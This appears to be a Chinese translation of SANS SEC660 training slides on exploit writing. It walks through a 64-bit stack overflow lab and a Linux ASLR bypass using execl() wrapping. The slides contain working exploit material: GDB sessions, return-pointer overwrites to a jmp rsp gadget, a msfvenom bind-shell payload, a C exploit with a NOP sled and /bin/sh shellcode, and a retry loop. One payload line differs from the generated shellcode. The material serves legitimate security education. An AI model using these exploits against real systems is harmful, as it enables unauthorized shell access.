0x7fffffffe278:"A7AAMAAiAA8AANAAjAA9AOAAkAAPAAAlAAQAAmARAAoAASAApAATAAqAUAAArAAVAAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-
A%%(A%DA%;A%AA%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5
A%KA%gA%6A%\377\177"
```
该模式的前8个字节为**A7AAMAAi**。现在运行**pattern_offset**命令，获取到达返回指针位置所需的字节数：
``` gdb-peda$ pattern_offset A7AAMAAi
A7AAMAAi found at offset: 104
```
如你所见，我们需要输入104个字节才能到达返回指针的位置。

## 练习：x64_vuln (8)
- 让我们测试目前学到的内容是否正确：发送104字节的输入，后面跟着一些明显的模式作为填充：
``` gdb-peda$ run < <(python -c 'print "A" * 104 + "\xde\xc0\xad\xde\xde\xc0\xad\xde" + "\x90" * 8')
```
Starting program: /root/x64_vuln < <(python -c 'print "A" * 104 + "\xde\xc0\xad\xde\xde\xc0\xad\xde" + "\x90" * 8')
请输入一串字符以获取其长度！你输入的内容长度为：92
程序收到SIGSEGV信号，段错误。
``` [--------------------------------registers---------------------------------]
RAX: 0x0 RBX: 0x0 RCX: 0x7fffffe0 RDX: 0x7ffff7dd5780 --> 0x0 RSI: 0x1 RDI: 0x0 RBP: 0x4141414141414141 ('AAAAAAAA') RSP: 0x7fffffffe278 --> 0xdeadc0dedeadc0de RIP: 0x400619 (<overflow+83>: ret)
R8 : 0x0 R9 : 0x20 (' ') R10: 0x0 R11: 0x246 R12: 0x4004d0 (<_start>: xor ebp,ebp)
R13: 0x7fffffffe360 --> 0x1 R14: 0x0 R15: 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
```
``` [-------------------------------code-------------------------------]
0x40060e <overflow+72>: call 0x400490 <printf@plt>
0x400613 <overflow+77>: mov eax,0x0
0x400618 <overflow+82>: leave
=> 0x400619 <overflow+83>: ret
0x40061a <asm>: push rbp
0x40061b <asm+1>: mov rbp,rsp
0x40061e <asm+4>: jmp rsp
0x400620 <asm+6>: nop
```
``` [-------------------------------stack------------------------------]
0000| 0x7fffffffe278 --> 0xdeadc0dedeadc0de
0008| 0x7fffffffe280 --> 0x9090909090909090
0016| 0x7fffffffe288 --> 0x7ffff7a5870a (<<__libc_start_main+250>: cmp edi,edi)
0024| 0x7fffffffe290 --> 0x0
0032| 0x7fffffffe298 --> 0x7fffffffe368 --> 0x7fffffffe631 ("/root/x64_vuln")
0040| 0x7fffffffe2a0 --> 0x1f7ffcca0
0048| 0x7fffffffe2a8 --> 0x400623 (<main>: push rbp)
0056| 0x7fffffffe2b0 --> 0x0
[----------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400619 in overflow ()
```
``` gdb-peda$ x/2gx $rsp
0x7fffffffe278: 0xdeadc0dedeadc0de
0x9090909090909090
```
如你所见，我们得到了预期的结果，可以清楚地看到栈指针指向我们的值0xdeadc0dedeadc0de，后面跟着八个NOP指令。

## 练习：x64_vuln (9)
- 目前，由于之前提到的ASLR（地址空间布局随机化）被禁用，栈的内容一直保持不变。现在让我们在调试器中开启ASLR，使用命令：**set disable-randomization off**
``` gdb-peda$ set disable-randomization off
```
- 现在，让我们在几次运行后检查栈的内容：
``` gdb-peda$ i r rsp
rsp 0x7fff6e3f12d8 0x7fff6e3f12d8
```

``` gdb-peda$ i r rsp
rsp 0x7ffe0b74e4a8 0x7ffe0b74e4a8
```


## 练习：x64_vuln (9)
为了使场景更贴近调试器外的实际情况，让我们在GDB中使用命令**set disable-randomization off**开启ASLR。你不需要执行下一步的**i r rsp**命令，但需要知道：你看到的输出是程序重启两次后的结果。重点是证明ASLR显然已经被开启。这意味着试图通过栈上的静态地址返回到缓冲区并不是一个可行的方案。


## **练习：x64_vuln（10）**
- 接下来，让我们退一步，确定溢出是从哪个函数发生的
- 运行如下 **反汇编 main** 命令，结果如下：
```gdb-peda$ disas main Dump of assembler code for function main: 0x0000000000400623 <+0>: push rbp 0x0000000000400624 <+1>: mov rbp,rsp 0x0000000000400627 <+4>: mov eax,0x0 0x000000000040062c <+9>: call 0x4005c6 <overflow> 0x0000000000400631 <+14>: mov eax,0x0 0x0000000000400636 <+19>: pop rbp 0x0000000000400637 <+20>: ret End of assembler dump. ```

## **练习：x64_vuln（11）**
- 接下来，让我们反汇编 `overflow` 函数，查看是哪个函数导致了溢出的发生
```gdb-peda$ disas overflow Dump of assembler code for function overflow: 0x00000000004005c6 <+0>: push rbp 0x00000000004005c7 <+1>: mov rbp,rsp 0x00000000004005ca <+4>: sub rsp,0x60 0x00000000004005ce <+8>: mov edi,0x4006c8 0x00000000004005d3 <+13>: call 0x400470 <puts@plt> 0x00000000004005d8 <+18>: lea rax,[rbp-0x60] 0x00000000004005dc <+22>: mov edx,0x12c 0x00000000004005e1 <+27>: mov rsi,rax 0x00000000004005e4 <+30>: mov edi,0x0 0x00000000004005e9 <+35>: call 0x4004a0 <read@plt> ...truncated 0x00000000004005ee <+40>: mov DWORD PTR [rbp-0x4],eax 0x00000000004005f1 <+43>: lea rax,[rbp-0x60] 0x00000000004005f5 <+47>: mov rdi,rax 0x00000000004005f8 <+50>: call 0x400480 <strlen@plt> 0x00000000004005fd <+55>: sub rax,0x1 0x0000000000400601 <+59>: mov rsi,rax 0x0000000000400604 <+62>: mov edi,0x4006f8 0x0000000000400609 <+67>: mov eax,0x0 0x000000000040060e <+72>: call 0x400490 <printf@plt> 0x0000000000400613 <+77>: mov eax,0x0 0x0000000000400618 <+82>: leave 0x0000000000400619 <+83>: ret End of assembler dump. ```
从上述汇编代码可以看到，**read()** 函数是将数据读入栈区的函数。该函数可以复制空字节，与 `strcpy()` 这类函数不同。**read()** 函数会在写入内存的末尾添加 `0x0a` 字节作为终止符。此外，我们可以在函数偏移+22处看到，**read()** 函数的大小参数为 `0x12c`，也就是300字节。如果查看函数开头，栈上仅分配了 `0x60` 字节的空间，显然这会导致溢出问题。

## **练习：x64_vuln（12）**
- 在 `overflow` 函数内部的 **ret** 指令处设置断点
```gdb-peda$ break * overflow+83 Breakpoint 1 at 0x400619 ```
- 接下来，运行程序，当提示输入时输入4个字符 `A`
- **注意**：如果调试器自动运行了你上次的输入，你需要运行 `set args` 命令并按回车清除旧的输入参数
```gdb-peda$ run Starting program: /root/x64_vuln Enter a string of characters to get the length! AAAA The length of your input is: 4 ```
``` [-----registers-------] RAX: 0x0 RBX: 0x0 RCX: 0x7fffffe1 RDX: 0x7f8f636ab780 --> 0x0 RSI: 0x1 RDI: 0x0 RBP: 0x7ffe6ecf8920 --> 0x400640 (<__libc_csu_init>: push r15) RSP: 0x7ffe6ecf8918 --> 0x400631 (<main+14>: mov eax,0x0) RIP: 0x400619 (<overflow+83>: ret) R8 : 0x0 R9 : 0x1f R10: 0x0 R11: 0x246 R12: 0x4004d0 (<_start>: xor ebp,ebp) R13: 0x7ffe6ecf8a00 --> 0x1 R14: 0x0 R15: 0x0 EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow) ``` ``` [------------------------code------------------------] 0x40060e <overflow+72>: call 0x400490 <printf@plt> 0x400613 <overflow+77>: mov eax,0x0 0x400618 <overflow+82>: leave 0x400619 <overflow+83>: ret 0x40061a <__libc_csu_init>: push rbp 0x40061b <__libc_csu_init+1>: mov rbp,rsp 0x40061e <__libc_csu_init+4>: jmp rsp 0x400620 <__libc_csu_init+6>: nop ``` ``` [------------------------stack------------------------] 0000| 0x7ffe6ecf8918 --> 0x400631 (<main+14>: mov eax,0x0) 0008| 0x7ffe6ecf8920 --> 0x400640 (<__libc_csu_init>: push r15) 0016| 0x7ffe6ecf8928 --> 0x7f8f6332e700 (<__libc_start_main+240>: mov edi,eax) 0024| 0x7ffe6ecf8930 --> 0x0 0032| 0x7ffe6ecf8938 --> 0x7ffe6ecf8a08 --> 0x7ffe6ecf9631 ("/root/x64_vuln") 0040| 0x7ffe6ecf8940 --> 0x1638d2ca0 0048| 0x7ffe6ecf8948 --> 0x400623 (<main>: push rbp) 0056| 0x7ffe6ecf8950 --> 0x0 ``` Legend: code, data, rodata, value ```
我们已经到达断点。

## **练习：x64_vuln（13）**
- 现在我们已经到达断点，让我们使用PEDA的 `jmpcall` 命令
- 我们知道，一旦 **ret** 指令执行，`RSP` 寄存器将指向返回指针位置之后的第一个四字内容
- 我们将专门搜索跳转或调用到 `RSP` 寄存器的地址
- 我们有很多可选项，且该程序不是位置无关可执行文件（PIE），因此代码段的地址是固定的，可以直接使用这些地址覆盖返回指针
SANS SEC660 | 高级渗透测试、漏洞利用编写与道德黑客
```gdb-peda$ jmpcall rsp 0x40061e : jmp rsp 0x400743 : call rsp 0x60061e : jmp rsp 0x600743 : call rsp ```
如你所见，有很多匹配结果。该程序不是位置无关可执行文件（PIE），因此我们可以使用这些地址来覆盖返回指针的位置。

## **练习：x64_vuln（14）**
- 我们将使用地址 `0x000000000040061e` 作为返回指针的覆盖值
- 之前输出中显示的地址省略了前导的 `0x00` 字节
- **read()** 函数允许我们写入空字节
- 下方命令因为长度过长发生了换行，我们在末尾添加了8个 `\xcc` 字节
```gdb-peda$ run < <(python -c 'print "A" * 104 + "\x1e\x06\x40\x00\x00\x00\x00\x00" + "\xcc" * 8') Breakpoint 1, 0x0000000000400619 in overflow () ```
接下来验证 `RIP` 寄存器是否指向返回指令：
```gdb-peda$ x/i $rip => 0x400619 <overflow+83>: ret ```
我们得到了预期的结果。现在检查栈指针是否指向我们预期的地址：
```gdb-peda$ x/gx $rsp 0x7ffe85cc6e38: 0x000000000040061e ```


## 练习：x64_vuln (15)
让我们单步执行一条指令，验证我们是否抵达了**jmp rsp**指令：
```gdb-peda$ si
0x000000000040061e in asM ()
# 输出已截断
gdb-peda$ x/i $rip
=> 0x40061e <asM+4>: jmp rsp
```
操作成功！现在，我们再单步执行一条指令，确保抵达了预期的**int3**指令：
```gdb-peda$ si
gdb-peda$ x/4i $rip
=> 0x7ffe85cc6e40: int3
0x7ffe85cc6e41: int3
0x7ffe85cc6e42: int3
0x7ffe85cc6e43: int3
```
成功！我们现在要做的就是用shellcode替换目标指令。
## **练习：x64_vuln (16)**
让我们使用**msfvenom**生成一段端口绑定的shellcode：
```root@kali:~# msfvenom -p linux/x64/shell_bind_tcp LPORT=9999 -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86_64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 86 bytes
Final size of c file: 386 bytes
unsigned char buf[] = "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x52"
"\xc7\x04\x24\x02\x00\x27\x0f\x48\x89\xe6\x6a\x10\x5a\x6a\x31"
"\x58\x0f\x05\x6a\x32\x58\x0f\x05\x48\x31\xf6\x6a\x2b\x58\x0f"
"\x05\x48\x97\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"
"\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";
```
## 练习：x64_vuln (17)
在调试器外部，使用msfvenom生成的shellcode，输入以下内容：
```root@kali:~# python -c 'print "A" * 104 + "\x1e\x06\x40\x00\x00\x00\x00\x00" + "\x90" * 4 + "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x52\xc7\x04\x24\x02\x00\x27\x0f\x48\xe9\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x6a\x32\x58\x0f\x05\x48\x31\xf6\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05AAAAAAAAAAAA"' > input
```
现在你已经创建好输入文件，运行程序并将输入传入：
```root@kali:~# ./x64_vuln < input
```
输入一串字符即可获取其长度！你的输入长度为：92
此时程序应该会挂起，表明端口已开放。在第二个终端窗口中运行以下命令，验证利用是否成功：
```root@kali:~# netstat -na | grep 9999
```
| 协议 | 接收队列 | 发送队列 | 本地地址 | 外部地址 | 状态 |
| ---- | -------- | -------- | -------- | -------- | ---- |
| tcp | 0 | 0 | 0.0.0.0:9999 | 0.0.0.0:* | LISTEN |
如果能走到这一步，说明你完成得很出色！如果没有，请回过头来重新走一遍操作流程。
## **练习：x64_vuln – 实践目的**
本次练习旨在通过64位栈溢出的示例进行实操，积累经验，了解Long Le开发的GDB PEDA插件的价值，并通过识别不参与随机化的有用指令来绕过ASLR。
## **还有另一种可能绕过ASLR的方法？**
我们已经了解了定位可作为潜在操作码的静态字节的方法，但还有其他思路吗？每当有新内核版本或编译器版本发布时，我们此前绕过ASLR的方法有时会失效。例如，linux-gate.so.1在现代内核版本中会被随机化，而在其他版本中，你需要的jmp或call指令可能已被移除。我们不能再依赖linux-gate.so.1作为绕过ASLR的方法了。格式字符串漏洞等内存泄漏可能是了解运行进程中库和变量位置的一种途径，但如果没有这种机遇，我们需要稍微跳出思维定式思考。有没有考虑过将程序包裹在另一个程序中，以期能更好地控制程序的内存布局？恰好，在使用特定函数打开易受攻击的程序时，这种方法奏效。
## 另一种技术
我们现在切换到Kubuntu Gutsy系统，该系统运行2.6.22版内核。首先，我们需要在命令提示符中输入`echo 1 > /proc/sys/kernel/randomize_va_space`来启用ASLR。不要忘记在进行其他测试时如果需要可以将其关闭，你可以通过输入命令`echo 0 > /proc/sys/kernel/randomize_va_space`实现。randomize_va_space文件中有三个主要取值：
- 0 – 无随机化：所有内容均为静态。
- 1 – 保守随机化：共享库、栈、mmap、VDSO和堆会被随机化。
- 2 – 完全随机化：除保守随机化外，break "brk()"也会被随机化。
## 验证ASLR是否启用
首先，我们使用ldd工具验证ASLR是否正确开启。我们要测试的程序名为aslr_vuln，位于你的/home/deadlist目录下。找到该程序并运行`ldd ./aslr_vuln`。每次针对aslr_vuln程序运行ldd时，libc.so.6的地址都应该发生变化。如果没有变化，请检查/proc/sys/kernel/目录下的randomize_va_space文件内的值是否为"1"。注意，linux-gate.so.1显示的地址是静态的。看起来在2.6.22版内核中，它是静态的，但其中我们需要的操作码已被清除。你可以尝试寻找可作为跳板的静态字节模式。如果你找到了，请分享它！


## 你应该看到什么
```sh
$ uname -rs
Linux 2.6.22-14-generic
$ ldd ./aslr_vuln
	linux-gate.so.1 =>  (0xffffe000)
	libc.so.6 => i686/cmov/libc.so.6 (0xb7e3d000)
	/lib/ld-linux.so.2 (0x80000000)
$ ldd ./aslr_vuln
	linux-gate.so.1 =>  (0xffffe000)
	libc.so.6 => i686/cmov/libc.so.6 (0xb7df7000)
	/lib/ld-linux.so.2 (0x80000000)
$ ldd ./aslr_vuln
	linux-gate.so.1 =>  (0xffffe000)
	libc.so.6 => i686/cmov/libc.so.6 (0xb7e47000)
	/lib/ld-linux.so.2 (0x80000000)
```
> 内核版本 2.6.22
> ASLR 已启用...
如你所见，当前运行的 Linux 内核版本为 2.6.22，可以通过执行 `uname -a` 命令验证这一点。多次对 `aslr_vuln` 程序使用 `ldd` 工具时，你会发现所列共享对象的加载地址每次运行都会变化，这可以帮助我们验证 ASLR 是否已正确启用。

## 检查是否存在栈溢出（BoF）
- 我们来检查 `aslr_vuln` 程序是否存在溢出
```sh
$ ./aslr_vuln AAAA
I'm vulnerable to a stack overflow...
See if you can hack me!
$ ./aslr_vuln `python -c 'print "A" * 100'`
I'm vulnerable to a stack overflow...
See if you can hack me!
Segmentation fault
```
- 我们通过传入 100 个字符 A 触发了段错误
和之前的操作一样，我们可以通过向程序传入若干字符 A，来判断 `aslr_vuln` 程序是否存在简单的栈缓冲区溢出（BoF）漏洞。如图所示，传入 4 个字符 A 并不会触发段错误，但通过 Python 传入 100 个字符 A 时，就会触发段错误。

## 使用 GDB 检查
```sh
(gdb) run `python -c 'print "A" * 48'`
I'm vulnerable to a stack overflow...
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info reg esp
esp            0xbfb6dd00       0xbfb6dd00
(gdb) run `python -c 'print "A" * 48'`
I'm vulnerable to a stack overflow...
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info reg esp
esp            0xbfb7ad00       0xbfb7ad00
```
现在试着在 GDB 中运行该程序来仔细观察。首先，尝试传入 100 个字符 A 运行程序。你很可能不会在段错误发生时看到预期的 0x41414141 值。部分原因在于 ASLR 在触发异常时往往会生成奇怪的结果，另一个原因和段错误的行为有关，这通常和函数的调用方式与调用位置挂钩。如果将传入的字符 A 数量减少到 48 个，你会看到段错误的行为以及 EIP 寄存器试图跳转的位置出现差异。多次使用 48 个字符 A 运行程序，你最终会在 EIP 寄存器中看到预期的 0x41414141 值。每次成功触发段错误时，都可以在 GDB 中使用 `p $esp` 命令打印栈指针中存储的地址。你会发现由于栈段的随机化，每次执行程序时这个地址都会发生变化。此时我们无法依赖传统的返回缓冲区攻击方式。需要注意的是，获取指令指针控制权的不稳定性，即使利用程序有效，其可靠性也会不稳定。这很可能是因为存在漏洞的函数是从 `main()` 函数中被调用的，你可以进一步逆向分析来确定具体原因。

## 还有哪些内容被随机化了？
- 函数位置会被随机化
### 第一次运行
```sh
Breakpoint 1, 0x080483b3 in main ()
(gdb) p system
$2 = {<text variable>} 0xb7dd5ef0 <system>
```
### 第二次运行
```sh
Breakpoint 1, 0x080483b3 in main ()
(gdb) p system
$2 = {<text variable>} 0xb7eb4ef0 <system>
```
- ret2libc 攻击不是可行的候选方案
在 GDB 中使用 `break main` 命令在 `main()` 函数处设置断点。不带任何参数运行程序。当程序因断点暂停执行时，输入 **p system**。记录下该地址后重新运行程序，当程序再次暂停时再次输入 `p system` 命令。你会发现每次执行程序时，`system()` 函数的映射地址都不同，这也说明简单的 return-to-libc 攻击实施起来也会很困难。

## 无址可返
- 当前情况：
  - 每次运行程序时，栈都会被随机化
  - 每次运行程序时，系统库和函数都会被随机化
  - 随机化使用 20 位比特空间
  - 暴力破解不是好的解决方案
  - 我们该如何绕过这一机制？有什么想法吗？
  - 把程序封装起来，尝试获得一定的控制权，这个方法怎么样？
到目前为止，我们已经知道每次运行程序时栈的地址都会发生变化，也知道系统库和函数在进程空间中的映射地址每次都会不同，还知道部分映射段的随机化池似乎使用了 20 位比特空间。显然，暴力破解并不是在该系统上绕过 ASLR 的最佳方法。你能想到哪些可以帮助我们绕过该内核上 ASLR 的方法？把程序封装起来尝试获得一定的控制权，这个方法可行吗？这说不定能成功！

## 封装目标程序
- `exec()` 系列函数
  - `int execl(const char *path, const char *arg, ...);`
  - `int execlp(const char *file, const char *arg, ...);`
  - `int execle(const char *path, const char *arg , ..., char * const envp[]);`
  - `int execv(const char *path, char *const argv[]);`
  - `int execvp(const char *file, char *const argv[])`
  - 用新的进程镜像替换当前进程镜像
出于试验目的，尝试用一个我们可控的 C 程序封装 `aslr_vuln` 程序，并使用 `execl()` 函数打开它。根据 Linux 系统中 `exec()` 系列函数的帮助文档描述：“exec 系列函数会用新的进程镜像替换当前进程镜像。”这可能会对 ASLR 产生一定影响，不过首先我们先看看在下一页是否能够触发段错误。
```c
#include <unistd.h>
extern char **environ;
int execl(const char *path, const char *arg, ...);
int execlp(const char *file, const char *arg, ...);
int execle(const char *path, const char *arg , ..., char * const envp[]);
int execv(const char *path, char *const argv[]);
int execvp(const char *file, char *const argv[]);
```
exec 系列函数会用新的进程镜像替换当前进程镜像，但不会重新进行随机化。

## 示例程序 – aslr_test1.c
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
int main(int argc, char *argv[])
{
  char buffer[100];
  int i, junk;
  printf("i is at: %p\n", &i);
  memset(buffer, 0x41, 100);
  execl("./aslr_vuln", "aslr_vuln", buffer, NULL);
}
```
首先，创建一个简单的 C 程序，使用 `execl()` 函数打开存在漏洞的 `aslr_vuln` 程序。创建一个 100 字节的缓冲区，传入若干大写字母 A，看看能否让 EIP 寄存器尝试跳转到 0x41414141 地址。使用 `gcc -fno-stack-protector aslr_test1.c -o aslr_test1` 命令编译该程序。

## 在 GDB 中运行
- `gdb ./aslr_test1`
- 多次运行该程序
```sh
(gdb) run
Starting program: /home/deadlist/aslr_test1
i is at: 0xbf9442b8
I'm vulnerable to a stack overflow...
Program received signal SIGSEGV, Segmentation fault.
Cannot remove breakpoints because program is no longer writable.
It might be running in another process.
Further execution is probably impossible.
0x080483e9 in main ()
```
如你所见，我们似乎触发了段错误，但并没有让 EIP 跳转到 0x41414141 地址。你可能会认为只要我们用字符 A 覆盖了返回指针，执行流程就应该尝试跳转到 0x41414141 地址；但实际上，程序的行为并不总是可预测的。


## 减小缓冲区大小
运气不佳；尝试减小缓冲区大小
```gdb
(gdb) run
Starting program: /home/deadlist/aslr_test1
i is at: 0xbfa343dc
I'm vulnerable to a stack overflow...
Program received signal SIGSEGV, Segmentation fault.
Cannot remove breakpoints because program is no longer writable. It might be running in another process. Further execution is probably impossible.
0x41414141 in ?? ()
```
将缓冲区大小以及传递给易受攻击程序的A的数量减少到48。如幻灯片所示，执行尝试跳转到0x41414141。这种情况可能不会每次都发生，因此在判定存在问题前可以多运行几次。
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
int main(int argc, char *argv[]) {
char buffer[48];
int i, junk;
printf("i is at: %p\n", &i);
memset(buffer, 0x41, 48);
execl("./aslr_vuln", "aslr_vuln", buffer, NULL);
}
```

## 下一步
现在我们已经可以控制执行跳转的地址，接下来可以：
- 多次写入返回指针以填满缓冲区
- 在缓冲区后放置NOP sled
- 我们希望跳转到此处
- 在NOP sled之后放置我们的shellcode
- 确定返回地址

因为我们已确认，将易受攻击的程序封装在我们自己编写的程序中时，依然可以控制执行流，因此现在可以开始搭建攻击框架。为此，我们需要用返回指针填满易受攻击程序的缓冲区，尽可能将其放置在正确的位置。在覆盖返回指针后放置NOP sled作为着陆区，之后在NOP sled之后放置我们要执行的shellcode，并确定要将返回指针设置为哪个地址。

## 返回指针（RP）该指向何处？
- 由于我们不知道栈会被映射到何处：
  - 我们可以创建一个变量，在调用execl()之前将其压入栈中
  - 进程空间被替换后，就可以获取该变量的地址作为参考
  - 如果需要，可以增大或减小偏移量前后的空间，并将其设置为返回指针（RP）

接下来我们在GDB中查看该程序及其执行过程。
我们已经明确自己不知道栈段会被映射到何处。可以在封装程序中创建一个变量，在调用execl()之前将其写入内存。进程被execl()替换后，就可以使用该变量的地址作为参考点。内存中对象的移动行为并不是一门精确的科学，但通常它们会保持在相同的相对区域。接下来可以根据该变量的地址创建一个偏移量，尝试让返回指针落入NOP sled范围内。现在查看我们的漏洞利用代码，并在GDB中更仔细地查看该程序。

## 这部分比较复杂
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
char shellcode[]= "\x31\xc0\x31\xdb\x29\xc9\x89\xca\x0b"
"\x46\xcd\x80\x29\xc0\x52\x68\x2f\x2f"
"\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
"\x52\x54\x89\xe1\xb0\x0b\xcd\x80";
int main(int argc, char *argv[]) {
char buffer[200]; // Our buffer of 200 bytes
int i, ret; // Our variable to reference based on its mem address and our RP variable
ret = (int) &i + 8; // The offset from the address of i we want to set our RP to ...
printf("i is at: %p\n", &i);
printf("buffer is at: %p\n", buffer); // Some information to help us see what's going on...
printf("RP is at: %p\n", ret);
for(i=0; i < 64; i+=4) // A loop to write our RP guess 16 times ...
*((int *)(buffer+i)) = ret;
memset(buffer+64, 0x90, 64); // Setting memory at the end of our 16 RP writes to 0x90 * 64, our NOP sled ...
memcpy(buffer+128, shellcode, sizeof(shellcode)); // Copying our RP guess, NOP sled and shellcode
execl("./aslr_vuln", "aslr_vuln", buffer, NULL); // Our call to execl() to open up our vulnerable program ...
}
```
- 必要的库文件
- 用于启动shell的shellcode
- 设置着陆区
- 填满缓冲区

查看下方代码中添加的注释，了解代码的作用：

## GDB内部操作
- 在execl()调用处设置断点
- 到那时我们的数据应该已经被复制了
```gdb
(gdb) x/16x $esp+24
0xbfd846a8: 0xbfd846a8 0xbfd846a8 0xbfd846a8 0xbfd846a8
0xbfd846b8: 0xbfd846a8 0xbfd846a8 0xbfd846a8 0xbfd846a8
0xbfd846c8: 0xbfd846a8 0xbfd846a8 0xbfd846a8 0xbfd846a8
0xbfd846d8: 0xbfd846a8 0xbfd846a8 0xbfd846a8 0x90909090
(gdb) 0xbfd846e8: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfd846f8: 0x9090 0x90909090 0x90909090 0x90909090
0xbfd84708: 0x9090 0x90909090 0x90909090 0x90909090
0xbfd84718: 0xdb31c031 0xca89c929 0x80cd46b0 0x6852c029
```
- Shellcode
- 返回指针（RP）
- 返回指针指向NOP sled附近。该地址每次运行都可能变化，因此我们可以尝试运行几次

如幻灯片所示，我们已经将返回指针的猜测值设置为靠近shellcode的地址。我们希望返回指针落入NOP sled范围内。再次强调，这并不是一门精确的科学，针对你分析的不同程序，结果可能会有差异。开启ASLR并使用execl()打开易受攻击的程序时，你可能会遇到结果不一致的情况。我们本次攻击的目标程序实际上相当稳定，使用这种方法你应该可以获得成功。但遗憾的是，当使用execl()打开另一个程序时，这个版本的GDB无法再跟踪该程序。这是因为execl()会调用execve()并生成一个新的进程ID，即使以root身份附加，ptrace()也无法跟踪该进程。如果使用fork()函数就不会出现这个问题，但fork()在生成子进程时不会重新随机化进程，因此不存在同样的漏洞。



### 运行测试
成功！经过几次尝试后，我们的shellcode就成功执行了。通过修改偏移量，很有可能进一步提高该漏洞利用的运行成功率。请记住，进程是通过exec()被替换的，即使将返回指针的猜测值设置为没有直接落在NOP sled内的地址，也有可能成功。即使返回指针指向的区域存储的是返回指针的猜测值，攻击仍然可能成功的原因是，返回指针的值会被当作操作码执行。如果这些是良性操作码，执行仍然可以成功。由于ASLR正在运行，地址会 constantly 变化，有时这些地址是不会影响程序运行的有效操作码，有时则会导致故障。可以使用一个简单的while循环来测试漏洞利用是否成功：
```bash
while true; do ./aslr-1; sleep 1; done;
```
感谢FHM Crew在https://dl.packetstormsecurity.net/papers/bypass/aslr-bypass.txt上发布该方法的相关版本。

## 模块总结
- 基于Linux的栈攻击
- 返回到代码
- 返回到C库
- 绕过栈保护机制
- W^X保护机制
- 地址空间布局随机化（ASLR）

我们研究了多种利用栈的方法，例如重定向执行流以绕过认证、返回到放入缓冲区的shellcode、返回到C库中的函数，以及绕过终结符canary（金丝雀）保护。随机canary、W^X和ASLR等其他防护机制也可能被绕过，具体取决于我们讨论的多个因素。由于优秀安全人员部署的各类防护机制，栈利用的难度正在持续提升；但在合适的条件下，仍然存在例外和绕过防护的方法。


## 回顾问题
- 如果栈被标记为不可执行，你会尝试哪种类型的攻击？
- 哪种类型的金丝雀会使用HP-UX的urandom强随机数生成器？
- 判断正误：PaX的地址空间布局随机化（ASLR）实现可以对进程内存空间中函数位置的全部32位进行随机化。
- 栈粉碎保护（SSP）基于哪种知名的栈防护工具？
## 答案
- 返回libc攻击（return-to-libc）
- 随机金丝雀
- 错误
- ProPolice
**1) 返回libc攻击（return-to-libc）：** 这类攻击通常用于绕开小型缓冲区或不可执行内存段的限制。
**2) 随机金丝雀：** 随机金丝雀会在可用且已配置的情况下使用HP-UX的urandom强随机数生成器。
**3) 错误：** 为控制内存中的段，32位内存寻址并非所有位都能被随机化。例如，我们必须让堆、栈和代码段等区域相互独立，且保持固定的基址位置。
**4) ProPolice：** 栈粉碎保护（SSP）基于ProPolice实现。
SANS | SEC660 | 高级渗透测试、漏洞利用编写与道德黑客 | 217
## 推荐阅读
- 《为乐趣和利润粉碎栈》，作者Aleph One：http://www-inst.eecs.berkeley.edu/~cs161/fa08/papers/stack_smashing.pdf
- 《为乐趣和利润粉碎现代栈》，作者Craig Heffner：https://www.ethicalhacker.net/columns/heffner/smashing-the-modern-stack-for-fun-and-profit/
- 《漏洞利用过程中使用返回libc攻击绕过不可执行栈》，作者c0ntex：http://css.csail.mit.edu/6.858/2012/readings/return-to-libc.pdf
- 《2.6.17/20版Linux内核的ASLR绕过方法》，作者FHM Crew：https://dl.packetstormsecurity.net/papers/bypass/aslr-bypass.txt
